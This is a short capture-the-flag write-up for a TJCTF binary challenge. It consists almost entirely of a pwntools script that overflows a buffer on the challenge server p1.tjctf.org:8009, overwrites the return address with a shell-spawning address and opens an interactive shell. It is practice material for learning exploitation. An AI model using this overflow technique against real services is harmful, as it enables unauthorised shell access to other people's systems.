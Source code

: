 # TJCTF: binary

Written by KyleForkBomb

_I heard there's someone selling shells? They seem to be out of stock though..._

`nc p1.tjctf.org 8009`

## Beginnings


## code
```python
from pwn import *
binsh = 0x4006E3
to_r = 0xA+8
r = remote('p1.tjctf.org', 8009)
r.sendlineafter('?\n', to_r*'A' + p64(binsh))
r.interactive()
```

